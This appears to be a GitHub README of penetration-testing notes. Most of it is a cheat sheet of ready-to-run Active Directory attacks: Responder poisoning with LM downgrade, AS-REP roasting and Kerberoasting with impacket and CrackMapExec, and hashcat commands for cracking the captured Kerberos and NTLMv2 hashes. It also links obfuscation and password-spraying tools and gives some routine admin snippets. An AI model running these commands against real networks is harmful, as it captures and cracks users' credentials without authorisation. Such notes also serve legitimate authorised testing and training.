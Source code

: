 # **ITSEC Notes**

# Poisoning and Spoofing 

Pretender
https://github.com/RedTeamPentesting/pretender

Responder
https://github.com/lgandx/Responder

Examples

``` responder -I eth0 ```

``` responder -I eth0 -A ``` Analyze mode

``` responder -I eth0 -wF ``` WPAD

``` --lm ``` Downgrade

``` responder -wrf --lm -v -I eth0 ```

## ASREProast
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

users list dynamically queried with an LDAP anonymous bind

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
``` 

users list dynamically queried with a LDAP authenticated bind (password)

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
``` 

CrackMapExec

```
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
``` 

## Kerberoasting
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```

# Cracking
From Kerberoast output, remove * and be replace / with :

Example Kerberoast hashcat syntax:

``` 
.\hashcat64.exe -w 4 -m 13100 G:\Tools\KHash.txt G:\Tools\rockyou.txt -r G:\Tools\hashcat-5.1.0\rules\dive.rule 
```

NTLMv2 -m 5600

## Tools
https://github.com/Cerbersec/Ares

https://github.com/cddmp/enum4linux-ng

https://github.com/0xsp-SRD/mortar

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/aas-n/spraykatz


## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

### Split a file n (100) number of lines into part1/2/etc
```
split -l 100 full part --numeric-suffixes=1
```

### Reformat usermames first.last@domain.com to last + first letter
```
while read LINE in; do
        EMAIL=`echo $LINE | awk -F\@ '{print $1}'`
        NAME=`echo $EMAIL | awk -F\. '{print $NF}'`
        CHAR1=`echo $LINE | cut -c1`
        echo ${NAME}${CHAR1}
done < emails.lst
```

### Get Ips from a file
```
egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' list | sort | uniq > ips
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list

Convert xml output to html files
&& xsltproc part1.xml -o part1.html 

```


## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Shodan
### Useful Searches
```
org:"companyname"
net:"1.1.1.0/24"
```

## Notes
Identify Domain Controller
````
nslookup  
 type set type=all 
 _Idap._tcp.dc_msdcs."Domain_Name" 
 ````


